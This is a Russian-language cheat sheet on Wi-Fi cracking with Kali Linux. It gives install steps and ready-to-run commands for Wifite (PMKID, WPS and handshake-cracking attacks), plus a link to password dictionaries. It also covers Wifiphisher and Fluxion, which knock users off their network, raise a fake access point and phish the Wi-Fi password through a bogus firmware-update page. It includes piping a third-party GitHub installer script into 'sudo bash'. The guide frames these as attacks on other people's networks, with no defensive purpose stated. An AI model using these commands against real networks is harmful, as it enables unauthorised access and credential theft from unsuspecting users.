 # Wifite

Wififte предустановлен в Kali Linux, однако, есть не установленные зависмости.

Доустановка зависимостей для Wifite:

	sudo apt-get update && sudo apt-get upgrade

	sudo apt-get install hcxtools

	sudo apt-get install hcxdumptool 

	git clone https://github.com/hacker3983/pyrit-installer && cd pyrit-installer && sudo bash install.sh
	
Чтобы запустить атаку с заданым временем для PMKID: 

	sudo wifite --pmkid-timeout 30 --random-mac --kill 

Если хотите запустить атаку со своим словарем, то добавьте --dict ~/dict/WPS_Pins.txt - путь до словаря, я использую WPS пин-коды

Чтобы запустить атаку на заданном сетевом интерфейсе добавьте параметр i, например:

	-i wlan0
	
Запустить атаку на WPS:

	sudo wifite --wps-only --bully --reaver --ignore-lock --random-mac
	
Запустить взлом перехваченного рукопожатия (Handshake):

	sudo wifite --crack --dict ~/dict/8digitBack.txt --all

*Путь до словаря паролей

**Cловари можно скачать [здесь](https://disk.yandex.ru/d/v4Lbt1p47K8bIw)**



# Wifiphisher 

Для атаки, в которой играет немалую роль социальная инженерия, есть инструмент под названием Wifiphisher. Он деаутентифицирует подключенных пользователей целевой точи доступа и поднимает ее фальшивую копию без пароля. Пользователи, думая что что-то не так с роутером, подключаются с фальшивой точке (к настоящей они не могут подключиться из-за работы нашей программы) и, якобы для обновления прошивки, точка их просит ввести пароль. После ввода пароль приходит нам.
 

**Установка:** 

	sudo apt-get install wifiphisher

**Использование**

	sudo wifiphisher

	

# FLUXION 


Данный инструмент похож на предыдущий, но он более продвинутый. Есть поддержка русского языка. 

Сначала Fluxion захватывает рукопожатие, достает из него хэш пароля, а затем делает всё тоже самое что и wifiphisher, только если пользователь введет верный пароль, Fluxion свернет поддельную точку доступа и атака завершится успехом. Для него лучше иметь дополнительный wifi-адаптер.

**Установка:**

	git clone https://github.com/FluxionNetwork/fluxion && cd fluxion/ && sudo ./fluxion.sh

**Использование:**

	sudo ./fluxion.sh
